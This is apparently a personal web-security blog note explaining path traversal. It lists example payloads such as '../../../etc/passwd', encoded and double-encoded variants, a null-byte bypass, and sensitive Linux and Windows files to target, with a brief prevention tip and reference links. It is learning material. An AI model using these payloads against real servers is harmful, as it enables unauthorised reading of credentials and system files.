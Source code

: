 ```yaml
---
title: Path Traversal
published: 2025-05-15
description: 'Notes about path traversal vulnerability'
image: "guide/tanjiro.jpg"
tags: [server-side, web-vulns]
category: 'WebSec'
draft: false 
---
```


`Path traversal`, also known as `directory traversal`, is a vulnerability that allows an attacker to read arbitrary files on the server where the application is hosted. Reading can include:

```markdown
- Application data and code
- Credentials of back-end systems
- Sensitive operating system files
```

In some cases the attacker may also be able to write arbitrary files to the server.

### Where to look?
Every time a resource or file is included by the application, there is a risk that an attacker could include a remote file or resource in an unauthorized way.

### Examples

```markdown
https://insecure-vulnerable-website.com/loadFile?filename=

Simple case:
    ?filename=../../../etc/passwd

Absolute path:
    ?filename=/etc/passwd

Nested traversal sequences:
    ?filename=....//....//....//etc/passwd

Url encoding:
    ?filename=..%2f..%2f..%2fetc/passwd

Double URL encoding:
    ?filename=..%252f..%252f..%252fetc/passwd

Base folder followed by traversal sequences:
    ?filename=/var/www/images/../../../etc/passwd

Null byte bypass:
    ?filename=../../../etc/passwd%00.png
```

### Encoding, double encoding and percent encoding
:::note[Tips]
Diff types to encode
:::

```
%2e%2e%2f -> ../
%2e%2e/ -> ../
..%2f -> ../
%2e%2e%5c -> ..\
%2e%2e\ -> ..\
..%5c -> ..\
%252e%252e%255c -> ..\
..%255c -> ..\

..%c0%af -> ../
..%c1%9c -> ..\

%252%66 -> %2f -> /
%252%65 -> %2e -> .
%252f -> %2f -> /
%252e -> %2e -> .
```

### Files to read
Linux Files:

- /etc/passwd
- /etc/hosts
- /etc/shadow

Windows Files:

- C:/boot.ini
- C:/Windows/win.ini
- C:/WINNT/win.ini


### How to prevent PATH TRAVERSAL
The most effective way to prevent path traversal vulnerabilities is to avoid passing user-supplied input to filesystem APIs altogether. Many application functions that do this can be rewritten to deliver the same behavior in a safer way. 

### Youtube

<iframe width="100%" height="468" src="https://www.youtube.com/embed/99yJtmmtrJU" title="Directory Traversal Attacks Made Easy" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

### Resources

[OWASP](https://owasp.org/www-community/attacks/Path_Traversal)
[Web Academy](https://portswigger.net/web-security/file-path-traversal#what-is-path-traversal)
[caon.io 🐐](https://caon.io/exploitation/vulnerability/pathtransversal/)
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md)